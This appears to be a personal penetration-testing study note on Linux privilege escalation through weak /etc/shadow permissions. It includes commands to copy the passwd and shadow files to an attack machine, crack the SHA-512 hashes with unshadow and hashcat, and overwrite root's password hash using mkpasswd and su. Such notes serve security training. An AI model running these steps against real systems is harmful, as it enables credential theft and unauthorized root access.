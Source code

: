-- -
### Read Permissions
-- -
If you have read permissions set on shadow file, then you can unshadow it and then start cracking hashes.

[[Weak File Permissions|Enum]], then Copy+Paste `/etc/passwd` and `/etc/shadow` from cat output and paste it over to your attack machine. 
```bash
# built into kali, may need to be installed anywhere else
# /etc/passwd -> passwd
# /etc/shadow -> shadow
unshadow <passwd> <shadow>
unshadow ./passwd ./shadow

# then copy+paste the users with an associated hash/login to a new unshadow file
```
Check the hash [here](https://hashcat.net/wiki/doku.php?id=hashcat), search for the number between the dollar signs, in this case it should start with `$6$`, which is `sha512`. In hashcat, this is the mode `1800`:

Not sure if you can directly run hashcat against the unshadow file, but probably not. Most likely take out the hash after the `$6$` to a colon, then run **only** the hash through hashcat. will see in practice whenever I find that vector. 
```
hashcat -m 1800 hash /usr/share/wordlist/rockyou.txt
```
### Write Permissions
-- -
[[Weak File Permissions| Enum]] then if you have write privileges, you can just change the root password and login. 
```bash
# need to hash the new password to SHA-512 before placing it in the shadow file
mkpasswd -m sha-512 <new passwd> 

# edit the /etc/shadow file to update root entry. Between the colons.
# then just loginto root
su
```
